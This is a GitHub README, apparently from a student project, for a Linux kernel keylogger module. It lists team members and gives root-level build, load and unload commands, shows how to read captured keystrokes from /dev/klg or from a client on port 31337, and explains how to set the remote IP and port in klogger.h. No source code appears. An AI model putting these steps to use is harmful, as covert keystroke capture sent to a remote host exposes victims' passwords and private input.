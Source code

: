 # ORIGIN Project

[<img src="https://avatars1.githubusercontent.com/u/13138166?v=3&s=400" width="20"> AishaNair/Key-Logger](https://github.com/AishaNair/Key-Logger)



# Team 성재와 노예들

> [<img src="https://avatars2.githubusercontent.com/u/22092657?v=3&s=460" width='20'> 민성재 (주인)](https://github.com/WoWsj) wowtjdwo@gmail.com

> [<img src="https://avatars2.githubusercontent.com/u/23147086?v=3&s=460" width="20"> 이영우 (노예)](https://github.com/youngwoo013) dbsgh013@gmail.com

> [<img src="https://avatars3.githubusercontent.com/u/19491469?v=3&s=460" width="20"> 장세영 (노예)](https://github.com/seyoung0916) seyoung0916@naver.com

> [<img src="https://avatars1.githubusercontent.com/u/11886612?v=3&s=460" width="20"> 방일섭 (노예)](https://github.com/Holmes1st) forresti3979@gmail.com

> [<img src="https://avatars0.githubusercontent.com/u/22047213?v=3&s=460" width="20"> 박준영 (노예)](https://github.com/awrsole) pjy9605@gmail.com

## How to build
```bash
$ git clone https://github.com/Holmes1st/OSS_Project.git YOUR_REPO
$ cd YOUR_REPO
$ sudo make             # you need root permission
```

## How to run

```bash
$ # Keylogger enable
$ sudo ./klg_load.sh    # you need root permission
```

```bash
$ # Keylogger disable
$ sudo ./klg_unload.sh  # you need root permission
```

### How to see Keyloger file
```sh
$ cat /dev/klg
       or
$ ./test/example/client.py localhost 31337
```

### How to change accept_ip & port
edit key-logger/klogger.h
```c
#define PEER_IP   "127.0.0.1"
#define PORT      "31337"
```
to
```c
#define PEER_IP  "IPNUMBER"
#define PORT     "PORTNUMBER"
```

### How to see Kernel Log file
```sh
$ sudo cat /proc/kmsg
```

